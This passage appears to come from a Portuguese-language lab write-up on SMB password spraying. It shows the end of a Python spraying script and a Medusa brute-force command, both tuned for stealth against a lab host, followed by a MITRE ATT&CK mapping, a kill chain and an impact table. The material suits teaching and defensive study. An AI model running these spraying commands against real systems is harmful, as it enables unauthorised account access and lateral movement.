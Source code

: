 ```python
            time.sleep(1)  # Delay para stealth
        time.sleep(5)  # Delay maior entre senhas

if __name__ == "__main__":
    password_spray()
```

### ⚡ Otimizações Avançadas

```bash
# Medusa com configurações otimizadas para stealth
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt \
  -t 1 \          # 1 thread apenas
  -T 60 \         # Timeout maior
  -s \            # SSL/TLS se disponível
  -r 0 \          # Sem retry
  -R 3            # 3 segundos entre tentativas
```

---

## 📚 Análise de Vulnerabilidades

### 🎯 Classificação MITRE ATT&CK

- **T1110.003** - Brute Force: Password Spraying
- **T1135** - Network Share Discovery
- **T1021.002** - Remote Services: SMB/Windows Admin Shares

### 🔍 Cadeia de Ataque (Kill Chain)

1. **Reconnaissance** - Identificação de serviços SMB
2. **Resource Development** - Criação de wordlists
3. **Initial Access** - Password spraying
4. **Discovery** - Enumeração de shares
5. **Collection** - Acesso a arquivos sensíveis
6. **Lateral Movement** - Propagação na rede

### 📊 Impacto Potencial

| Aspecto               | Impacto | Descrição                        |
| --------------------- | ------- | -------------------------------- |
| **Confidencialidade** | Alto    | Acesso a arquivos compartilhados |
| **Integridade**       | Médio   | Possível modificação de arquivos |
| **Disponibilidade**   | Baixo   | Sistemas permanecem operacionais |
| **Lateral Movement**  | Alto    | Base para ataques subsequentes   |

---
